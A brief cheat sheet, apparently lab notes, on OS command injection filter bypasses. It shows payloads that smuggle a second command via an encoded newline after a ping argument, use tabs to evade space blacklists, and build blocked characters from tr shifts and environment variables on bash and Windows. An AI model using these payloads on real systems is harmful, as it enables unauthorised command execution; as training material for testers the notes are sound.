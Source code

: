 ### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```

